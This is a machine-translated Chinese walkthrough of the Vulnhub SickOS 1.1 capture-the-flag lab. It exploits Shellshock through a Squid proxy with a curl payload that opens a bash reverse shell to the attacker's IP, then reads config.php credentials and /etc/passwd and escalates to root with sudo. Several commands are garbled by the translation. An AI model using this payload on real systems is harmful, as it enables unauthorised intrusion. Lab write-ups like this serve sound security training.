# Vulnhub 撰写/演练 SickOS 1.1 |作者 Md Amiruddin

> 原文：<https://infosecwriteups.com/sickos-1-1-capture-the-flag-walkthrough-27eb77acfc41?source=collection_archive---------2----------------------->

这个 CTF 类似于 OSCP 考试课程中的实验。目标是危害目标并获得管理/根权限。

旗帜:有一面旗帜

DHCP:启用
IP 地址:自动分配

病秧子 1.1 OVA 文件可以在[这里](https://www.vulnhub.com/entry/sickos-11,132/)下载。

对于这台 Toppo 机器，我使用了 Virtual Box 来运行目标机器。Kali Linux 是解决这个 CTF 的攻击机器。

**足迹**

正如你所看到的，神经病机器是通电的。现在，在我们开始使用 ifconfig 来找到你的攻击机器(kali)的 IP 地址。



我的目标的 IP 地址是 10.0.2.9，我的 Kali 的 IP 地址是 10.0.2.15。这些地址适用于我和我的网络，您的地址可能会有所不同。

我们将使用命令> **netdiscover -i eth0** 来发现病人的 ip 地址。



接下来，我们需要了解目标有哪些端口和服务可用。为此，我们将对目标使用 Nmap。

使用的命令> **nmap -sS -A -n -T5 10.0.2.9**



从 nmap 扫描中，我们了解到在端口 3128 上配置了一个 Squid HTTP 代理，并且在端口 8080 上运行的 HTTP 被关闭。HTTP 的存在告诉我们很可能有一个网站。

让我们通过用代理配置 Nikto 来查找 web 服务器上的漏洞。

使用的命令>**nikto-h 10 . 2 . 2 . 9-use proxy**[**http://10 . 0 . 2 . 9:3128**](http://10.0.2.9:3128)



Nikto scan 帮助我们识别服务器易受 Shellshock 漏洞的攻击。你可能想知道什么是 shellshock 漏洞。

Shellshock 是一种计算机错误，它利用 UNIX 命令执行 shell-bash 中的漏洞，方便黑客远程控制计算机系统并执行任意代码，这将影响基于 UNIX 的操作系统，包括 Linux 和 Mac OS。

为了访问网站，我们需要配置 Firefox 浏览器的代理设置。首先启动 Firefox，进入**设置>网络设置>编辑手动代理配置> Ok。**



在我们点击“确定”并保存代理设置后，我们可以进入地址栏并输入目标的 IP 地址，这将为我们提供网站的主页。



你可以检查网站的源代码，但我在那里没有发现任何有用的东西。

在查看 robots.txt 之后，我们了解到有一个 wolfcms 页面。我们去看看。



Wolfcms 页面没有提供任何有用的信息。现在，我们将针对该站点运行漏洞利用 shell shock—[CVE-2014–6271](http://www.cvedetails.com/cve/cve-2014-6271)和[CVE-2014–6278](http://www.cvedetails.com/cve/cve-2014-6278)。它将允许我们建立一个反向外壳。

现在打开第二个终端，运行下面的 cURL 命令。注意:这个命令是用我的目标和 Kali IP (10.0.2.15)配置的，您的 IP 可能会有所不同。

命令使用>**curl-x**[**http://10 . 0 . 2 . 9:3128****-H " User-Agent:(){ ignored；};/bin/bash-I>&/dev/TCP/10 . 0 . 2 . 15/4444 0>&1 "**](http://10.0.2.9:3128)[**http://10 . 0 . 2 . 9/CGI-bin/status**](http://10.0.2.9/cgi-bin/status)



但是首先要设置监听器端口并运行。

使用的命令: **nc -lvnp 4444**

正如我们所见，我们的反向外壳已经建立！



**命令分解:**

我们使用-x 开关来启动使用 HTTP 代理的连接。之后，我们使用-H 开关来包含一个编辑过的用户代理头。我们执行的代码是一个反向 TCP bash shell。

接下来，我们需要将默认位置更改为 wolfcms 文件夹，然后列出内容，看看我们能在那里找到什么。

命令使用> **cd /var/www/wolfcms**

使用的命令> **ls**



我们发现了一个 config.php 的文件，所以将尝试读取它。我们可以使用 cat 命令查看内容。

命令使用>**猫 config.php**

这很有趣，我们得到了 SQL 访问的用户名和密码。



之后，我们将使用 cat 命令打印出 etc/passwd 文件的内容。

使用的命令> **cat /etc/passwd**



我们找到了一个用户名“神经病”。因此，我们尝试使用用户 sickos 和我们之前找到的密码 [**【电子邮件保护】**](https://cyberintelligencesolution.com/cdn-cgi/l/email-protection) 建立一个 ssh shell。

打开第二个终端，尝试使用 ssh 登录到目标机器。

使用的命令> **ssh** [**【邮件保护】**](https://cyberintelligencesolution.com/cdn-cgi/l/email-protection) 密码:[【邮件保护】](https://cyberintelligencesolution.com/cdn-cgi/l/email-protection)



如您所见，我们已成功登录。让我们看看神经病有什么样的权限。

使用的命令: **sudo -l**

神经病有根权限。让我们访问目标神经病的根。之后，将目录切换到根目录。

命令使用>**须藤苏**

命令使用> **cd /root**



让我们列出目录内容，看看有哪些权限。

使用的命令> **ls -la**



因为我们找到了一个 txt 文件，所以要读取 a 0216 ea 4d 51874464078 c 618298 b 1367 . txt 文件的内容，我们将使用 cat 命令。

使用的命令>**cat a 0216 ea 4d 51874464078 c 618298 b 1367 . txt**



最后我们拿到了旗子。

*原载于 2022 年 12 月 21 日 https://cyberintelligencesolution.com***。**